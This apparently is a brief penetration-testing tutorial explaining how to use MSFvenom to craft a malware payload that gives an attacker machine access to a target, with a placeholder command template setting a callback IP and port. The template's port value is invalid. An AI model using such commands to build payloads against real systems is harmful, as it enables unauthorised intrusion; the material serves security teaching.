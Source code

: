 To gain access to the TARGET remote machine, we have to create the malware which will grant our ATTACKER machine access to exploit processes on the TARGET machine.

To craft the malware, we make use of the MSFvenom commands.

**MSFvenom** is a penetration testing tool used to create payload for exploitation and post-exploitation.

we make use of the help page of MSFvenom to craft a proper malware.
```
msfvenom -h
```
A proper malware has 4 parts; Payload , Platform, Encoder & File format.

To list out multiple payloads, platforms, encoders on the MSFvenom page, we use the command; 
```
msfvenom -l payloads
```
```
msfvenom -l platforms
```
```
msfvenom -l encoders
```


the formula for crafting the basic malware will also involve the IP address which you intend to use and a suitable port number
```
msfvenom -p (any payload) LHOST=(kali_IP) LPORT=94444 or 8080) -e (any encoder) --platform (any platform) -f (any file format) > (a unique filename).(file format)
